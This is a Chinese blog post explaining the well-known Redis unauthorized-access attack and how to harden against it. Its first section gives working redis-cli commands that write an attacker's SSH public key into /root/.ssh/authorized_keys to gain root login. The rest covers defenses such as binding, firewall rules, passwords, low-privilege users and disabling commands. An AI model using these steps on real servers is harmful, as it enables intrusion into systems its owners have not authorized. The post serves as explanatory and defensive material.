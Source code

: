 ```yaml
---
title: "Redis的一个简单漏洞攻击与防范"
date: 2019-11-16T12:40:16+08:00
draft: false
---
```


# Redis的一个简单漏洞攻击与防范

> Redis是目前使用最为广泛的缓存中间件，使用起来虽然方便、简洁但如果不加一些安全限制的使用，便会导致一些问题。之前我的一位朋友，因为在自己的云服务器上自行部署了Redis用来学习，不久后他的服务器便被人搞去挖矿了...本文讲述Redis简单的漏洞攻击流程以及对应的防范方法。


## 简单的攻击流程
- 如果本地没有配置过ssh，先生成公钥和私钥

  ```shell
    ssh-keygen -t rsa
  ```

- 将公钥写入一个txt文件

  ```shell
  (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > test.txt
  ```

- 连接Redis并把公钥文件写入。

  ```shell
  cat test.txt | redis-cli -h {server.ip} -x set attack_key
  ```

- 登入未受保护的Redis，进行如下命令操作。通过config命令修改了持久化目录及持久化文件名，使持久化的DB文件刚好为root用户SSK key存放的文件，然后save将公钥追加到authorizew_keys文件的末尾，也就上传了公钥。之后便可以使用SSH以root用户登录目标服务器。

  ```shell
  redis-cli -h {server.ip}
  # 下面都是Redis Client的交互命令
  config set dir /root/.ssh/
  config set dbfilename "authorized_keys"
  save
  ```
- 拿到root用户，之后自然就是为所欲为了～

## 线上Redis服务安全加固

> Redis在默认情况下会存在未授权访问漏洞，如果Redis的运行用户为root，黑客可以向root账号导入SSH公钥，从而直接通过SSH入侵服务器。

### 1.限制访问源只能为本地或指定IP

在redis.conf文件中写入一行记录：`bind 127.0.0.1 `，然后重启Redis生效。也存在例外情况，如果Redis以root用户运行，攻击者借助已有的web shell，可以利用该Redis来反弹shell实现提权。？

### 2.设置防火墙策略

通过iptables，仅允许指定的ip来访问Redis服务

```
iptables -A INPUT -s x.x.x.x -p tcp --dport 6379 -j ACCEPT
```

### 3.设置访问密码

在redis.conf中写入`requirepass {your_password}`，设置一个安全度高的密码。

### 4.使用低权限用户运行Redis

使用低权限用户运行Redis，并禁用该账号的远程登录，使用新用户并重启Redis生效。

```
useradd -M -s /sbin/nologin {username}
```

### 5.屏蔽重要指令

可以将一些重要命令设置为空，即禁用，也可以重命名成更复杂的名字。修改完成后需要重启Redis生效。

```
rename-command config ""
rename-command flushall ""
rename-command flushdb ""
rename-command shutdown shutdown_wxj
```

在Redis 3.0.2版本以下存在EVAL沙箱逃逸漏洞，攻击者可以通过该漏洞执行任意Lua代码，可以通过rename config命令和在redis.conf中限制访问源来规避风险。